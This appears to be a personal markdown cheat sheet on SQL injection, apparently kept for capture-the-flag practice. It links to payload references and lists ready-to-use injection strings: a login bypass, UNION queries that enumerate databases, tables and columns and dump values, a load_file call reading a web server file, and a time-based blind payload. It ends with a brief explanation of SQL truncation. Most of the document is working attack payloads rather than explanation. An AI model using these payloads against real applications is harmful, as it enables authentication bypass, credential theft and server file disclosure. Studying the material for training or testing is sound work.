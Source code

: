 ```yaml
---
layout: default
---
```


# SQL INJECTION(SQLi)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)
- [NetSPI](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- https://tib3rius.com/sqli
- portswigger
- https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/

dbfiddle.uk

We want to find credentials exploring possible DBs and tables. Another way is to read files.


## manual:

admin' or 1=1 LIMIT 1-- -


- `admin' union select 1;-- -`
- FIND ALL DBS:
  `admin' UNION SELECT group_concat(schema_name) FROM information_schema.schemata;-- -`
- FIND TABLES IN DB:
  `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables where table_schema='november';-- -`
- FIND COLUMNS IN TABLE:
  `admin' UNION SELECT group_concat(table_name, ':', column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema='november';-- -`
- FIND VALUES:
  `admin' UNION SELECT group_concat(one) FROM flag;-- -`
- READ FILES:
  `admin' UNION SELECT load_file('/var/www/html/index.php');-- -`

## manual time based:
- FIND DB NUMBER OF CHARACTERS:
- `1%20OR%20IF(LENGTH((SELECT%20database()))=5,SLEEP(1),0)%23`


## SQL Truncation

SQL truncation is a flaw in the database configuration in which an input is truncated (deleted) when added to the database due to surpassing the maximum defined length. The database management system truncates any newly inserted values to fit the width of the designated column size.

So, where can we find this vulnerability ?? it can be found in any web application that allows users to sign up/register for new accounts.
